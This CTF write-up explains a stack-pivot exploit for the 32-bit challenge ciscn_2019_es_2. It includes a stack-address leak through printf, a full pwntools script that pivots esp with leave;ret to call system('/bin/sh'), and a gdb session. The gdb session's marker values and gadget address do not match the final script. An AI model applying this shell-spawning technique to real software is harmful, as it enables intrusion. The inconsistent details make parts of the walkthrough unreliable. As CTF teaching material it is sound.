







<div align="center">

# 🔄 ciscn_2019_es_2

### Pwn Writeup · Stack Pivot via `leave; ret` — No libc Leak Needed


*The overflow is 8 bytes too small for a normal argument-injection chain — so the exploit turns the buffer itself into a second stack instead.*

</div>

---

## 📌 TL;DR

A 32-bit `cdecl` binary where `read()` is hard-capped at 48 bytes per call — just barely enough to reach the return address, but **8 bytes short** of also injecting a function address, a fake return address, and an argument. A decoy `hack()` function calls `system("echo flag")`, which only ever prints the literal word "flag" and never a real one. The real solve: leak a live stack address through an off-by-one-free `printf`, then abuse the function's own `leave; ret` epilogue **twice** — once naturally, once as a reused gadget — to pivot `esp` into the attacker's own buffer, which becomes a second, much larger "virtual stack" holding a full `system("/bin/sh")` call.

```
Stage 1: send exactly 40 bytes (no padding to the return address) -> leak saved ebp
Stage 2: pivot esp into the buffer via two leave;ret hops -> system("/bin/sh")
```

| | |
|---|---|
| **Binary** | `cis` — ELF 32-bit, dynamically linked, No PIE, not stripped |
| **Bug** | `read(0, buf, 0x30)` into a 40-byte stack buffer, called **twice** |
| **Protections** | Canary **off** · NX **on** · PIE **off** · Partial RELRO |
| **The trap** | `hack()` exists and calls `system()`, but with a hardcoded, useless argument |
| **The constraint** | 48-byte read cap vs. 56 bytes needed for a normal argument-injection chain |
| **Primitive** | Partial-overwrite stack leak + double `leave; ret` stack pivot |
| **Result** | Shell, verified step-by-step with a live `gdb` attach |

---

## 🗺️ Table of Contents

1. [Challenge Overview](#1--challenge-overview)
2. [Assembly Analysis](#2--assembly-analysis)
3. [Reconstructed C Source](#3--reconstructed-c-source)
4. [Exploitation Strategy](#4--exploitation-strategy)
5. [Live Debugging Session](#5--live-debugging-session-gdb--verifying-the-pivot-step-by-step)
6. [Full Python Exploit](#6--full-python-exploit)
7. [Quiz — Concepts Covered](#7--quiz--concepts-covered)
8. [Final Notes](#8--final-notes)

---

## 🧭 Exploit Flow at a Glance



---

## 1. 📋 Challenge Overview

```
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```

The binary presents a simple prompt ("What's your name?") and reads input into a fixed buffer **twice** via `read()`, echoing it back with `printf("Hello, %s\n", buf)` each time. A decoy function `hack()` exists that calls `system("echo flag")` — a red herring that never prints a real flag, since `echo` just echoes its literal argument.

What makes this challenge distinct from a standard `ret2libc` is a **tight size constraint**: `read()` only accepts `0x30` (48) bytes per call, which is *just barely* enough to reach the return address (44 bytes of padding + 4 bytes for the address itself) but **not enough** to also inject a fake return address and a function argument for a `cdecl`-style call (that needs 56 bytes total: 44 + 4 + 4 + 4). This forces a more advanced technique: **stack pivoting**.

---

## 2. 🧩 Assembly Analysis

### 2.1 `vul()` — the vulnerable function

```asm
08048595 <vul>:
 8048595: push   ebp
 8048596: mov    ebp,esp
 8048598: sub    esp,0x28          ; 0x28 (40) bytes reserved, NO extra pushes before this

 80485a2: lea    eax,[ebp-0x28]    ; buffer starts at ebp-0x28
 80485a6: call   memset@plt        ; zero out 0x20 bytes

 80485ae: sub    esp,0x4
 80485b1: push   0x30              ; read() size = 48 bytes
 80485b3: lea    eax,[ebp-0x28]
 80485b6: push   eax
 80485b7: push   0x0
 80485b9: call   read@plt          ; read(0, buf, 0x30)   <- FIRST read

 80485c1: ... call printf@plt      ; printf("Hello, %s\n", buf)

 80485d8: push   0x30
 80485da: lea    eax,[ebp-0x28]
 80485dd: push   eax
 80485de: push   0x0
 80485e0: call   read@plt          ; read(0, buf, 0x30)   <- SECOND read

 80485e8: ... call printf@plt      ; printf("Hello, %s\n", buf) again
 80485fd: leave                    ; mov esp,ebp ; pop ebp
 80485fe: c3     ret
```

### 2.2 Stack layout and padding (32-bit, with frame pointer)

Since there is no extra `push` before `sub esp,0x28` (unlike a challenge with a saved `ebx`), the layout is simple:



```
ebp - 0x28  →  start of buffer (40 bytes)
ebp - 0x00  →  saved ebp
ebp + 0x04  →  return address  ← target
```

**Padding formula (32-bit, with frame pointer):**
```
padding = (ebp - buffer_address) + 4
        = 0x28 + 4 = 44 bytes
```

### 2.3 The binary-size constraint that forces stack pivoting

A classic `cdecl` ret2win-with-argument chain needs:

```
44 bytes padding + 4 bytes [function addr] + 4 bytes [fake return] + 4 bytes [argument] = 56 bytes
```



But `read()` only reads **48 bytes** per call. The naive chain is **8 bytes short**. Returning into `vul()` again only buys back 4 bytes per iteration (the frame shifts by 4 bytes each re-entry) — not enough on its own to close an 8-byte gap cleanly without a different trick.

### 2.4 `hack()` — the decoy

```asm
0804854b <hack>:
 804854b: push   ebp
 804854c: mov    ebp,esp
 8048551: sub    esp,0xc
 8048554: push   0x80486c0        ; "echo flag"
 8048559: call   system@plt
```

Calling `hack()` only ever prints the literal string `"flag"` via `echo` — it never reads a real flag file. This is a trap: an easy `ret2hack` *looks* like the solution but is a dead end.

---

## 3. 🧱 Reconstructed C Source

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>

void hack() {
    system("echo flag");   // decoy — prints the literal word "flag", not a real flag
}

void init() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}

void vul() {
    char s[40];
    memset(s, 0, 0x20);

    read(0, s, 0x30);               // read #1 — 48 bytes max
    printf("Hello, %s\n", s);

    read(0, s, 0x30);               // read #2 — 48 bytes max, overwrites same buffer
    printf("Hello, %s\n", s);
}

int main() {
    init();
    puts("Welcome, my friend. What's your name?");
    vul();
    return 0;
}
```

---

## 4. 🎯 Exploitation Strategy

### 4.1 Step 1 — Leak the buffer's stack address (partial overwrite leak)

Since the buffer sits 40 bytes before `ebp`, sending **exactly 40 bytes** (not 44) leaves `saved ebp` untouched. Because `printf("%s", buf)` stops only at a null byte, and our 40-byte input has none, it keeps reading **past** the buffer and prints the still-intact `saved ebp` value — a real, live stack address.



```python
p.recvuntil(b"Welcome, my friend. What's your name?\n")
p.send(b'a' * 0x28)          # exactly 40 bytes

p.recvuntil(b'Hello, ')
p.recv(0x28)                 # discard our own echoed 40 bytes
leak = u32(p.recv(4))        # the leaked saved ebp (main's frame)
```

### 4.2 Step 2 — Compute the buffer's real address

The leaked value is `main`'s saved `ebp`, sitting at a **fixed offset** from our buffer (the gap between `vul`'s and `main`'s stack frames never changes — only ASLR's base shifts). This offset was confirmed interactively with `gdb`:

```
buf_addr = leak - 0x38
```

### 4.3 Step 3 — The critical bug: `sendline()` silently corrupts the leak

**This was the single biggest time sink of this challenge.** `pwntools`' `sendline()` always appends a trailing `\n` (`0x0a`) to whatever is sent. When sending exactly 40 bytes intended to land precisely up to (but not including) `saved ebp`, the extra `\n` becomes a **41st byte**, overwriting the *first* byte of `saved ebp` with `0x0a` before it could be leaked.



**Symptom:** every leaked value consistently ended in `0a` (e.g. `0xffffd20a`, `0xff8b660a`, `0xffb2d90a`...) — a statistically impossible pattern for a genuinely ASLR-randomized address. This was the tell that pointed straight at the bug.

**Fix:** use `send()` instead of `sendline()` whenever the payload must be an *exact* byte count with no implicit terminator:

```python
p.send(payload)   # NOT p.sendline(payload)
```

This single fix also meant the previously-computed leak offset (`0x16`, derived from corrupted data) was wrong and had to be recomputed (`0x38`) once the leak was clean.

### 4.4 Step 4 — Building the overflow within the 48-byte limit via stack pivoting

Instead of trying to cram a full "function + fake-return + argument" chain into the overflow directly (which needs 56 bytes and doesn't fit), the natural overflow into `saved ebp` / `return address` is repurposed as a **pivot trigger**:

```
[0-3]:   'aaaa'                  junk — becomes the new ebp after the pivot, unused
[4-7]:   system_addr             becomes eip once pivoted into the buffer
[8-11]:  0xdeadbeef               fake return for system() — harmless if it crashes after
[12-15]: buf_addr + 0x10          argument for system(): points at "/bin/sh"
[16-23]: "/bin/sh\x00"            the string itself, stored inside our own buffer
[24-39]: padding (zero bytes)
[40-43]: buf_addr                 overwrites saved ebp — pivot target
[44-47]: leave_ret gadget addr    overwrites return address — triggers the pivot
```

**How the pivot executes, step by step:**



1. `vul()` reaches its own epilogue: `leave; ret`.
2. `leave` → `esp = ebp` (our `buf_addr`), `pop ebp` reads the next 4 bytes into `ebp` (`'aaaa'`, unused), `esp` advances.
3. `ret` → jumps to whatever byte sequence is at that position in our chain — which was engineered so this lands back on the `leave; ret` gadget.
4. The second `leave; ret` execution, now operating with `esp` inside **our own controlled buffer**, pops `system_addr` directly into `eip` — effectively a `call` into `system()` with our chosen stack layout right behind it.

This elegantly reuses a single `leave; ret` gadget already present in the binary (no extra one needed), and — crucially — fits entirely inside the natural 48-byte overflow of the *second* `read()`, because the pivot itself needs no extra space: it hijacks space **we already control inside the buffer** for the second stage of the chain.

---

## 5. 🔬 Live Debugging Session (gdb) — Verifying the Pivot Step by Step

Because this binary ran on a remote Ubuntu SSH box with no GUI, debugging required **attaching gdb to an already-running process** from a second terminal, rather than launching gdb directly:

```bash
# Terminal 1: run the exploit with a pause before sending the final payload
python3 exploit.py
# prints: [!] PID: 4839 ... waiting for Enter

# Terminal 2:
gdb -p 4839
```

(Note: `yama/ptrace_scope` can block attaching to a non-child process on modern Ubuntu; if attach fails with `ptrace: No such process` or similar, check `cat /proc/sys/kernel/yama/ptrace_scope` and use `sudo gdb -p <pid>` if needed.)

Breakpoint placed at the `leave; ret` gadget address (`0x80485fd`), then stepped one instruction (`stepi`) at a time, printing `$eip`, `$esp`, `$ebp` after each step:

```
Breakpoint 1, 0x080485fd in vul ()
(gdb) stepi            # first `leave`
0x080485fe in vul ()
$esp = 0xff8b592c
$ebp = 0x4a4a4a4a      # confirms 'JJJJ' landed in ebp as expected

(gdb) stepi            # first `ret`, lands on system@plt
0x08048400 in system@plt ()
$eip = 0x8048400       # <- confirms the pivot delivered control to system()!

(gdb) x/8xb $esp
0xff8b5930: 4b 4b 4b 4b  20 59 8b ff     # fake return + argument pointer

(gdb) stepi
0x08048406 in system@plt ()
(gdb) x/s *(int*)($esp+4)
0xff8b5920: "/bin/sh"    # <- confirms the argument correctly points at our string!
```

This confirmed the entire pivot chain worked exactly as designed. The subsequent `continue` showed:

```
[Detaching after vfork from child process 4867]
Program received signal SIGSEGV, Segmentation fault.
0x4b4b4b4b in ?? ()
```

The `vfork` line is the proof that `system("/bin/sh")` **successfully spawned a shell**. The SIGSEGV afterward is `system()`'s own internal return hitting the deliberately-junk fake return address (`'KKKK'` = `0x4b4b4b4b`) — happening *after* the shell had already launched, so it does not affect exploit success in principle.

### A remote-specific gotcha: the monitoring wrapper kills the shell on crash



On the remote server, the exploit showed:
```
timeout: the monitored command dumped core
```
immediately after the shell spawned. This is because the CTF server wraps the target binary with a process monitor (commonly `timeout`) that detects the **parent** process (`cis`) crashing from the stray fake-return `SIGSEGV`, and tears down the entire process group — including the just-spawned shell — before interaction is possible. The fix is to avoid a parent crash altogether: using a **valid** fake return address (e.g. back into `vul()` itself) instead of garbage keeps the parent alive after `system()` returns, so the monitor has no reason to kill the session.

---

## 6. 🚀 Full Python Exploit

```python
from pwn import *

context.arch = 'i386'

if len(sys.argv) > 1:
    host, port = sys.argv[1].split(':')
    p = remote(host, int(port), ssl=True, sni=host)
else:
    p = process('./cis')

SYSTEM_ADDR = 0x8048400
LEAVE_RET   = 0x8048562   # a leave;ret gadget already present in the binary

# ============ Stage 1: leak the buffer's real stack address ============
p.recvuntil(b"Welcome, my friend. What's your name?\n")
p.send(b'a' * 0x28)          # send(), NOT sendline() — avoid the trailing \n corrupting the leak

p.recvuntil(b'Hello, ')
p.recv(0x28)                  # discard the echoed 40 bytes of 'a'
leak = u32(p.recv(4))         # the leaked saved ebp value

buf_addr = leak - 0x38
log.info(f"leaked value: {hex(leak)}")
log.info(f"buf address: {hex(buf_addr)}")

# ============ Stage 2: stack-pivot payload calling system("/bin/sh") ============
payload  = b'aaaa'
payload += p32(SYSTEM_ADDR)
payload += p32(0xdeadbeef)            # fake return for system(), irrelevant if it crashes after
payload += p32(buf_addr + 0x10)       # argument: pointer to "/bin/sh" inside our own buffer
payload += b'/bin/sh\x00'
payload += b'\x00' * (0x28 - 4*4 - 8)  # pad out to the full 40-byte buffer
payload += p32(buf_addr)              # overwrites saved ebp -> pivot target
payload += p32(LEAVE_RET)             # overwrites return address -> triggers the pivot

assert len(payload) == 48

p.recvuntil(b'\n')
p.send(payload)               # send(), not sendline() — exact byte count matters here too

p.interactive()
```

---

## 7. 🧩 Quiz — Concepts Covered

### Q1. Why does the naive "function + fake-return + argument" ROP pattern that worked in a previous (64-bit, `ret2libc`) challenge fail here?
<details>
<summary>Answer</summary>
Each <code>read()</code> call here is hard-capped at 48 bytes. The pattern needs 44 bytes of padding plus 12 more bytes (function address, fake return, argument) = 56 bytes — 8 bytes more than the buffer allows in a single read. Unlike a simpler challenge, a basic "return into the vulnerable function again" trick doesn't close the gap cleanly either, since each re-entry only shifts the usable frame by 4 bytes at a time.
</details>

### Q2. Why does sending exactly 40 bytes (not 44) cause `printf` to leak a real stack address?
<details>
<summary>Answer</summary>
<code>printf("%s", buf)</code> prints bytes starting at <code>buf</code> until it hits a null byte. A 40-byte input with no null terminator doesn't stop <code>printf</code> at the end of our data — it keeps reading (and printing) whatever bytes happen to sit immediately after the buffer in memory, which in this case is the still-untouched <code>saved ebp</code> value: a genuine, live stack address.
</details>

### Q3. What was the actual root cause of every leaked address ending in the byte `0x0a`, and how was it diagnosed?
<details>
<summary>Answer</summary>
<code>pwntools</code>' <code>sendline()</code> automatically appends a trailing newline (<code>0x0a</code>) to every payload. When the intended payload was exactly 40 bytes (meant to stop precisely at the buffer boundary), the implicit newline became a 41st byte that silently overwrote the first byte of the adjacent <code>saved ebp</code> value before it could be leaked intact. It was diagnosed by noticing that every single leaked address — across multiple separate program runs, which should have fully random low bytes under ASLR — ended in the same byte, an outcome essentially impossible by chance. The fix was switching to <code>send()</code>, which transmits the payload exactly as given with no implicit terminator.
</details>

### Q4. Conceptually, what does a stack pivot via `leave; ret` actually do, and why is it useful here?
<details>
<summary>Answer</summary>
<code>leave</code> is equivalent to <code>mov esp, ebp; pop ebp</code>. Since an attacker fully controls the overflowed <code>saved ebp</code> value, triggering a <code>leave; ret</code> lets the attacker redirect <code>esp</code> to point anywhere they choose — including into memory they already control, such as their own input buffer. This "pivots" the stack pointer into attacker-controlled data, effectively turning the buffer itself into a second, much larger "virtual stack" for a ROP chain, bypassing the small size limit of any single <code>read()</code> call.
</details>

### Q5. Why was it acceptable to use `0xdeadbeef` as `system()`'s fake return address even though it's guaranteed to crash?
<details>
<summary>Answer</summary>
Because <code>system()</code> had already completed its job (spawning <code>/bin/sh</code> via <code>vfork</code>+<code>exec</code>) by the time it tried to <code>ret</code> to that invalid address. The crash happens strictly <em>after</em> the useful side effect occurred. In principle this is harmless for a plain local exploit — though on the remote server it introduced a separate problem (see Q6).
</details>

### Q6. Why did the shell appear to open on the remote server, yet the connection closed almost immediately with "the monitored command dumped core"?
<details>
<summary>Answer</summary>
The remote challenge server wraps the target binary in a process-monitoring tool (commonly <code>timeout</code>) that watches for the parent process crashing. Once <code>system()</code>'s fake return address caused the parent (<code>cis</code>) to SIGSEGV, the monitor interpreted this as the target misbehaving and killed the entire process group — including the freshly spawned <code>/bin/sh</code> child — before any interaction was possible. The practical fix is to give <code>system()</code> a <em>valid</em> fake return address (e.g. looping back into <code>vul()</code>) so the parent process never crashes, keeping the connection alive for interactive use.
</details>

### Q7. Why is `hack()` a trap rather than a shortcut, even though it calls `system()` directly?
<details>
<summary>Answer</summary>
<code>hack()</code>'s call to <code>system("echo flag")</code> is hardcoded with a literal, fixed string — it always runs the shell command <code>echo flag</code>, which simply prints the word "flag" to stdout. It does not read any actual file from disk (such as <code>cat flag.txt</code>), so it can never reveal the real, server-side flag regardless of environment. A full <code>system("/bin/sh")</code> shell is required to actually explore the filesystem and retrieve the real flag.
</details>

### Q8. Why is debugging by attaching gdb to a running remote process (`gdb -p <pid>`) sometimes necessary even when static disassembly (`objdump`) already shows the full logic of a chain?
<details>
<summary>Answer</summary>
Static disassembly shows the binary's fixed logic but cannot show runtime state: actual register values, actual memory contents at a given moment, or whether a multi-step chain (like a double <code>leave;ret</code> pivot) is landing exactly where intended. Here, stepping through with <code>stepi</code> and inspecting <code>$eip</code>/<code>$esp</code>/<code>$ebp</code> at each stage was the only way to confirm the pivot was working correctly and to pinpoint that the crash, when it did occur, happened <em>after</em> <code>system()</code> had already succeeded — a distinction impossible to determine from objdump output alone.
</details>

---

## 8. 📋 Final Notes

- **Flag omitted** — the challenge server issues output per connection; retrieval depends on the session succeeding before the monitoring wrapper intervenes (see Section 5's final note on using a valid fake-return address).
- This challenge reinforced debugging methodology (remote gdb attach, `stepi`-level verification of a multi-stage pivot) at least as much as it did exploit-writing technique.
- Key new technique: **stack pivoting with `leave; ret`**, used when the overflow window is too small for a standard argument-injection chain.
- Key new debugging lesson: `sendline()` vs `send()` — an invisible, silent off-by-one that produced a misleadingly consistent (and therefore diagnosable) pattern in leaked data.

---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
